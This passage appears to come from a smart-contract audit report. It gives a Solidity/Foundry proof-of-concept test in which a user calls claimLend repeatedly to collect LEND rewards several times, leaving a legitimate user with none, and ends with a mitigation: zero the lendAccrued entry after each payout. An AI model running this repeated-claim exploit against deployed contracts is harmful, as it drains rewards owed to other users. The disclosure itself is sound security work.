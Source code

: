 ```solidity

        _claimLend(anotherUser, "anotherUser", lToken);

        uint256 userLendTokenBalance = lendToken.balanceOf(anotherUser);
        console2.log("anotherUser's LEND balance:", userLendTokenBalance);

        _claimLend(anotherUser, "anotherUser", lToken);

        userLendTokenBalance = lendToken.balanceOf(anotherUser);
        console2.log("anotherUser's LEND balance:", userLendTokenBalance);

        _claimLend(anotherUser, "anotherUser", lToken);

        userLendTokenBalance = lendToken.balanceOf(anotherUser);
        console2.log("anotherUser's LEND balance:", userLendTokenBalance);

        _claimLend(deployer, "deployer", lToken);
        userLendTokenBalance = lendToken.balanceOf(deployer);
        console2.log("deployer's LEND balance:", userLendTokenBalance);

        //legitimate user's LEND balance is 0, despite having claimed
        assertEq(lendToken.balanceOf(deployer), 0);
    }

    function _supply(address supplier, string memory _alias, address underlying, uint256 amount) internal {
        vm.startPrank(supplier);

        console2.log("%s supplying %d", _alias, amount);

        //mint underlying token
        ERC20Mock(underlying).mint(supplier, amount);
        
        //approve router and supply
        IERC20(underlying).approve(address(coreRouter), amount);
        coreRouter.supply(amount, underlying);

        vm.stopPrank();
    }

    function _claimLend(address claimer, string memory _alias, address lToken) internal {
        vm.startPrank(claimer);

        console2.log("%s claiming LEND", _alias);

        //build arguments for claimLend() call
        address[] memory claimers = new address[](1);
        claimers[0] = claimer;

        LToken[] memory lTokensToClaim = new LToken[](1);
        lTokensToClaim[0] = LToken(lToken);

        //claim earned lend tokens
        coreRouter.claimLend(claimers, lTokensToClaim, true, true);
    }
```

### Mitigation

Ensure that when a user's rewards claim is successfully distributed their entry in the lendAccrued mapping is zeroed.
